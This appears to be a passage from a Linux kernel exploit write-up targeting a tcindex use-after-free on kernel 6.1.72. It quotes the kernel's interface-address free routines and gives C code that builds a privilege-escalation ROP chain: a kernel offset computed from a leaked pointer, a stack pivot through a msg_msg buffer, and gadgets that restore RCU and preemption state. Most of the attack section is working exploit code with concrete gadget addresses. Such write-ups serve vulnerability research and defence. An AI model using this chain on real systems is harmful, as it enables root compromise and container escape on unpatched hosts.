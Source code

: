 ![](https://image.baidu.com/search/down?url=https://wx3.sinaimg.cn/large/ee2fecafly1hme1hkkrnej215k0dqq6m.jpg)

```c
static struct in_ifaddr *inet_alloc_ifa(void)
{
	return kzalloc(sizeof(struct in_ifaddr), GFP_KERNEL_ACCOUNT);
}

static void inet_rcu_free_ifa(struct rcu_head *head)
{
	struct in_ifaddr *ifa = container_of(head, struct in_ifaddr, rcu_head);
	if (ifa->ifa_dev)
		in_dev_put(ifa->ifa_dev);
	kfree(ifa);
}

static void inet_free_ifa(struct in_ifaddr *ifa)
{
	call_rcu(&ifa->rcu_head, inet_rcu_free_ifa);
}
```

## rop chain

Finally, to trigger tcindex's enqueue with UAF again, a [dsmark](https://elixir.bootlin.com/linux/v6.1.72/source/net/sched/sch_dsmark.c#L237) ancestor needs to be wrapped around it. By using [SO_PRIORITY](https://elixir.bootlin.com/linux/v6.1.72/source/net/core/sock.c#L1209) to specify the priority, the final res can be reached. Referencing [corjail](https://syst3mfailure.io/corjail/)'s rop, after privilege escalation, `find_task_by_vpid` can be used to find the task_struct and switch to a new fs_struct. However, attention needs to be paid to solve the [rcu_read_lock_bh](https://elixir.bootlin.com/linux/v6.1.72/source/net/core/dev.c#L4216) in `__dev_queue_xmit`, to remove the corresponding BH and rcu_read_lock, and to reduce the preemption count by 1:

```c
    kernel_offset = leaked_inet_rcu_free_ifa - 0xffffffff81e3b5d0;
    memset(buf, 0, sizeof(buf));
    memset(&msg, 0, sizeof(msg));

    msg.mtype = 3;
    *(uint64_t *)(msg.mtext) = kernel_offset + 0xffffffff81c77562; // enqueue: push rsi ; jmp qword ptr [rsi + 0x66]
    *(uint64_t *)(msg.mtext + 32) = 0; // stab
    *(uint32_t *)(msg.mtext + 168) = 0; // q.len
    *(uint64_t *)(msg.mtext + 0x66) = kernel_offset + 0xffffffff8112af1e; // pop rsp ; pop r15 ; ret
    *(uint64_t *)(msg.mtext + 8) = kernel_offset + 0xffffffff8108bbd8; // add rsp, 0xb0 ; jmp 0xffffffff82404c80

    rop = (uint64_t *)(msg.mtext + 0xc0);
    // rcu_read_lock_bh()
    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = kernel_offset + 0xffffffff81d435bd;
    *rop++ = kernel_offset + 0xffffffff8103e8a8; // pop rsi ; ret
    *rop++ = 0x200;
    *rop++ = kernel_offset + 0xffffffff811941a0; // __local_bh_enable_ip(_THIS_IP_, SOFTIRQ_DISABLE_OFFSET)

    // rcu_read_unlock()
    *rop++ = kernel_offset + 0xffffffff8120e350; // __rcu_read_unlock

    // BUG: scheduling while atomic: poc/224/0x00000002
    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = 1;
    *rop++ = kernel_offset + 0xffffffff811c2d20; // preempt_count_sub
```